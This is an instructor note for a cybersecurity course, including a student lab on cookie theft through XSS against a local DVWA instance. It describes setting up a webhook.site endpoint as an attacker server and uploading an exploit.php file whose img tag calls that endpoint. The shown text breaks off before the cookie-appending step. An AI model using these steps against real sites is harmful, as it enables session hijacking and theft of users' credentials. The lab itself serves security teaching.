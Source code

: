 Send students the following files:
- [Instructions](Activities/Stu_Cookie_Phishing/README.md)


We’ve also included the details of the student activity file for your reference

**Welcome!**

In this exercise, you have been tasked with assessing a site for XSS vulnerabilities. As part of your task, you will need to show _how_ the website is vulnerable, and how a malicious actor could take advantage of the vulnerability. 

In particular, you will attempt to exploit an XSS vulnerability to steal a user's cookies by:
- Creating a "webhook", which will serve as a malicious server to receive user/victims cookies.
- Building an `img` tag that sends an HTTP request to your webhook.
- Updating the `img` tag to include the user's cookies in a query string.
- Injecting a `script` tag that dumps the image tag to the page. 

**Prework**

Before we begin, we will need to set a cookie for us to try and steal. As the victim you will need to open your DVWA instance that is installed onto your VM. Right click on the page and click `Inspect Element` from the drop down menu. Click on `Console`, type the following and press **Enter**:

`document.cookie = "test: password;"`

This will set the cookie for us to steal. If you have visited other websites that have saved cookies onto your VM, this activity will steal those cookies instead. 

**Instructions**

In order to steal the cookie information, complete the following:

- Navigate to <https://webhook.site/>. Copy the unique URL provided on the page. This is the URL you'll send requests containing user cookies to.

- Navigate to your DVWA instance. 

- Create a new named `exploit.php` that includes the PHP below:

```
<?php
$html = <<<EOF
<img src ="<Your Webhook URL>" />
EOF;

echo $html;
```

- Save the file. 

- Navigate to **File Upload** tab on the left hand of the DVWA instance. Upload your exploit.php file. Activate your malicious script by going to `localhost/hackable/uploads/exploit.php`. You should see a broken image on the page.

- Return to your Webhook. You should see a new request appear on the left sidebar. This was sent by your image tag, so you know that it's successfully communicating with your "malicious" server.

- Update your file as follows:
